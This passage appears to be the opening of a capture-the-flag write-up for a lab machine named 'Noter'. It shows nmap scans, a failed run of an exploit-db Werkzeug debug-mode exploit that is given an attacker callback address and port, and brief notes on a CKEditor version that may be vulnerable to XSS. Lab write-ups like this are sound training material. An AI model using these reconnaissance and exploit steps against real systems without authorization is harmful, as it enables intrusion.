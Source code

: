 ----------------


# USER

### Step 1
**nmap:**
```bash
➜  noter nmap -p- -Pn 10.10.11.160 -v
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
5000/tcp open  upnp


➜  noter nmap -Pn -n -sCV -p21,22,5000 10.10.11.160
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c6:53:c6:2a:e9:28:90:50:4d:0c:8d:64:88:e0:08:4d (RSA)
|   256 5f:12:58:5f:49:7d:f3:6c:bd:9b:25:49:ba:09:cc:43 (ECDSA)
|_  256 f1:6b:00:16:f7:88:ab:00:ce:96:af:a6:7e:b5:a8:39 (ED25519)
5000/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.8.10)
|_http-title: Noter
|_http-server-header: Werkzeug/2.0.2 Python/3.8.10
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel


➜  noter sudo nmap -sU --top-port=50 --open 10.10.11.160
PORT   STATE         SERVICE
68/udp open|filtered dhcpc
```

FTP is always fun, however from nmap it doesn't seem like anonymous logins are enabled. Checking this manually confirms that's the case.

Werkzeug has a known code execution if debug is enabled, quickly check with script in Kali.
```bash
➜  Downloads python2 /usr/share/exploitdb/exploits/multiple/remote/43905.py 10.10.11.160 5000 10.10.14.26 4488
[-] Debug is not enabled
```

Browse port 5000 and we are met with a very simple page.
![[Pasted image 20220519104910.png]]

Trying bacis authentication bypasses doesn't give anything, so instead we create an account with credentials `admin:admin`. 

When posting a new note, pressing the `?` icon we find the information `CKEditor 4.6.2 (revision 20af917)`.  Googling around it seems to be vulnerable to XSS, although the post seems to be done with a CDN, so not local and should not be seen as a attack vector.
